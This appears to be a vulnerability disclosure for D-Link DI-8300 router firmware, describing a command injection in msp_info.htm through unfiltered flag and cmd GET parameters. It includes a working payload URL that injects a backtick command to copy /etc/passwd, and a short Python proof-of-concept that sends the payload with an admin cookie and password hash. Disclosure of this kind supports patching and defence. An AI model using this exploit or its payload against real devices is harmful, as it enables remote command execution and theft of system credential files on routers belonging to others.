 # Firmware:
version:DI_8300-16.07.26A1
download link:http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8300
# Description:
In the system dangerous function of the msp_info_htm function, parameters are passed through the GET request mode for the flag and cmd variable, resulting in command injection vulnerabilities due to careless concerns.
# Analyse:
Obtain the flag and cmd parameter concatenate the command and run the system function without filtering the following characters.

![](image/Pasted%20image%2020240906103039.png)


```
http://192.168.0.1/msp_info.htm?flag=cmd&cmd=`cat%20/etc/passwd%3EAAA.txt`
```

![](image/Pasted%20image%2020240906103054.png)

Check the firmware shell. The command is successfully executed

![](image/Pasted%20image%2020240906103128.png)


# POC:
```
import requests

ip = "192.168.0.1:80"
payload = "`cat%20/etc/passwd%3EAAA.txt`"

url = "http://"+ip+"/msp_info.htm?flag=cmd&cmd="+payload+""
Cookies = {"wys_userid": "admin,wys_passwd=6B4BED98A39AD592599AF9F3092B1782"}
requests.get(url, cookies=Cookies)
```
